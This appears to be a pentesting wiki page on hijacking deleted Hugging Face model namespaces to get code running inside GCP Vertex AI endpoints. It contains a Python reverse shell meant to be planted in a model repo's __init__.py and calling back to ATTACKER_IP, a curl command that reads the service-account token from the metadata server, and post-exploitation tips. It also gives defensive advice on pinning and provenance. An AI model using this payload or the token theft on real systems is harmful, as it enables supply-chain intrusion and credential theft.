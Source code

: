 # GCP - Vertex AI Post-Exploitation via Hugging Face Model Namespace Reuse

## Scenario

- Vertex AI Model Garden allows direct deployment of many Hugging Face (HF) models.
- HF model identifiers are Author/ModelName. If an author/org on HF is deleted, the same author name can be re-registered by anyone. Attackers can then create a repo with the same ModelName at the legacy path.
- Pipelines, SDKs, or cloud catalogs that fetch by name only (no pinning/integrity) will pull the attacker-controlled repo. When the model is deployed, loader code from that repo can execute inside the Vertex AI endpoint container, yielding RCE with the endpoint’s permissions.

Two common takeover cases on HF:
- Ownership deletion: Old path 404 until someone re-registers the author and publishes the same ModelName.
- Ownership transfer: HF issues 307 redirects from old Author/ModelName to the new author. If the old author is later deleted and re-registered by an attacker, the redirect chain is broken and the attacker’s repo serves at the legacy path.

## Identifying Reusable Namespaces (HF)

- Old author deleted: the page for the author returns 404; model path may return 404 until takeover.
- Transferred models: the old model path issues 307 to the new owner while the old author exists. If the old author is later deleted and re-registered, the legacy path will resolve to the attacker’s repo.

Quick checks with curl:

```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```

## End-to-end Attack Flow against Vertex AI

1) Discover reusable model namespaces that Model Garden lists as deployable:
- Find HF models in Vertex AI Model Garden that still show as “verified deployable”.
- Verify on HF if the original author is deleted or if the model was transferred and the old author was later removed.

2) Re-register the deleted author on HF and recreate the same ModelName.

3) Publish a malicious repo. Include code that executes on model load. Examples that commonly execute during HF model load:
- Side effects in __init__.py of the repo
- Custom modeling_*.py or processing code referenced by config/auto_map
- Code paths that require trust_remote_code=True in Transformers pipelines

4) A Vertex AI deployment of the legacy Author/ModelName now pulls the attacker repo. The loader executes inside the Vertex AI endpoint container.

5) Payload establishes access from the endpoint environment (RCE) with the endpoint’s permissions.

Example payload fragment executed on import (for demonstration only):

```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
    s = socket.socket(); s.connect((host, port))
    for fd in (0,1,2):
        try:
            os.dup2(s.fileno(), fd)
        except Exception:
            pass
    subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
    threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```

Notes
- Real-world loaders vary. Many Vertex AI HF integrations clone and import repo modules referenced by the model’s config (e.g., auto_map), which can trigger code execution. Some uses require trust_remote_code=True.
- The endpoint typically runs in a dedicated container with limited scope, but it is a valid initial foothold for data access and lateral movement in GCP.

## Post-Exploitation Tips (Vertex AI Endpoint)

Once code is running inside the endpoint container, consider:
- Enumerating environment variables and metadata for credentials/tokens
- Accessing attached storage or mounted model artifacts
- Interacting with Google APIs via service account identity (Document AI, Storage, Pub/Sub, etc.)
- Persistence in the model artifact if the platform re-pulls the repo

Enumerate instance metadata if accessible (container dependent):

```bash
curl -H "Metadata-Flavor: Google" \
  http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```

## Defensive Guidance for Vertex AI Users

- Pin models by commit in HF loaders to prevent silent replacement:

```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```

- Mirror vetted HF models into a trusted internal artifact store/registry and deploy from there.
- Continuously scan codebases and configs for hard-coded Author/ModelName that are deleted/transferred; update to new namespaces or pin by commit.
- In Model Garden, verify model provenance and author existence before deployment.

## Recognition Heuristics (HTTP)

- Deleted author: author page 404; legacy model path 404 until takeover.
- Transferred model: legacy path 307 to new author while old author exists; if old author later deleted and re-registered, legacy path serves attacker content.

```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```

## Cross-References

- See broader methodology and supply-chain notes:

[[../../pentesting-cloud-methodology.md]]

## References

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

